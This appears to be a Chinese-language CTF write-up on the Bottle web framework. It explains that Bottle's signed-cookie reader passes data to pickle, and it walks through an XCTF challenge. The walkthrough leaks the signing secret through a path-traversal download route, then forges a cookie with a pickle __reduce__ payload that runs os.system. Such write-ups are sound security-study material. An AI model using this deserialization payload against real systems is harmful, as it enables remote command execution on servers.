

[Python|基于Bottle的SSTI注入 | TGlu'blog](https://tg1u.top/2025/04/17/Python-%E5%9F%BA%E4%BA%8EBottle%E7%9A%84SSTI%E6%B3%A8%E5%85%A5/)
[Bottle框架的模板引擎安全问题分析-先知社区](https://xz.aliyun.com/news/17430)
https://www.tremse.cn/2025/04/12/bottle%E6%A1%86%E6%9E%B6%E7%9A%84%E4%B8%80%E4%BA%9B%E7%89%B9%E6%80%A7/#cookie%E5%A4%84%E7%90%86%E6%9C%BA%E5%88%B6
# bottle框架的简介
Bottle 是一个非常轻量级的 Python Web 框架，适合用于构建简单的 Web 应用和RESTful API。Bottle 的最大特点之一是它的单文件设计，意味着你只需一个文件 bottle.py （也可以pip下载官方的）即可使用整个框架，而不需要安装其他依赖。

最简示例：
```python

from bottle import route, run

# 定义路由及处理函数
@route('/')
def hello():
    return "Hello, World!"

# 启动应用
run(host='localhost', port=8080)

```

语法上和flask差不多，
默认模板语法使用语法符号为 `<% %> % {{ }}`

- `<% %>`用来放置多行代码
- `<%`也行
- `%`用来放置单行代码
- `{{ }}`用来放置变量
但是最通用的是`{{ }}`,另外两个因为不会回显内容
# cookie处理机制
首先说个结论：
如果用bottle的get_cookie函数来解析cookie的话，是会触发pickle的反序列化的，后果就是有空可钻了。
源代码:
```python
def get_cookie(self, key, default=None, secret=None, digestmod=hashlib.sha256):
        """ Return the content of a cookie. To read a `Signed Cookie`, the
            `secret` must match the one used to create the cookie (see
            :meth:`BaseResponse.set_cookie`). If anything goes wrong (missing
            cookie or wrong signature), return a default value. """
        value = self.cookies.get(key)
        if secret:
            # See BaseResponse.set_cookie for details on signed cookies.
            if value and value.startswith('!') and '?' in value:
                sig, msg = map(tob, value[1:].split('?', 1))
                hash = hmac.new(tob(secret), msg, digestmod=digestmod).digest()
                if _lscmp(sig, base64.b64encode(hash)):
                    dst = pickle.loads(base64.b64decode(msg))
                    if dst and dst[0] == key:
                        return dst[1]
            return default
        return value or default

```
解析流程如下：

- 首先得到cookies中的值
- 判断是否存在secret参数，也就是检验是否存在签名密钥。若不存在，直接返回值；若存在，则开始下一步
- 检验格式：以`!`开头并且其中包含`?`的cookie值才有效，否则直接返回deflaut。
- 将值拆分为签名`sig`和消息`msg`并使用`secret`对`msg`进行HMAC哈希计算（算法由`digestmod`指定，默认SHA256）。再使用`_lscmp`对比生成的哈希与Cookie中的签名，验证签名是否有效。
- 然后问题来了，如果验证通过，则直接对`msg`进行Base64解码并用`pickle`反序列化数据。不论后面如何，只要能到这一步，就能干些坏事了。
## XCTF原题
```python
# -*- encoding: utf-8 -*-
'''
@File    :   main.py
@Time    :   2025/03/28 22:20:49
@Author  :   LamentXU 
'''
'''
flag in /flag_{uuid4}
'''
from bottle import Bottle, request, response, redirect, static_file, run, route
with open('../../secret.txt', 'r') as f:
    secret = f.read()

app = Bottle()
@route('/')
def index():
    return '''HI'''
@route('/download')
def download():
    name = request.query.filename
    if '../../' in name or name.startswith('/') or name.startswith('../') or '\\' in name:
        response.status = 403
        return 'Forbidden'
    with open(name, 'rb') as f:
        data = f.read()
    return data

@route('/secret')
def secret_page():
    try:
        session = request.get_cookie("name", secret=secret)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=secret)
            return 'Forbidden!'
        if session["name"] == "admin":
            return 'The secret has been deleted!'
    except:
        return "Error!"
run(host='0.0.0.0', port=8080, debug=False)

```
发现存在一个`secret.txt`
```python
with open('../../secret.txt', 'r') as f:
    secret = f.read()
```
我们可以通过`/download`路由去查看它

拿到了密钥。
然后通过http服务来伪造cookie
```python
# cookie.py
from bottle import route, run,response
import os


secret = "Hell0_H@cker_Y0u_A3r_Sm@r7"

class exp():
    def __reduce__(self):
        cmd = "ls"
        return (os.system, (cmd,))


@route("/sign")
def index():
    try:
        session = exp()
        response.set_cookie("name", session, secret=secret)
        return "success"
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8081)

```
得到cookie后使用并访问`/secret `路由，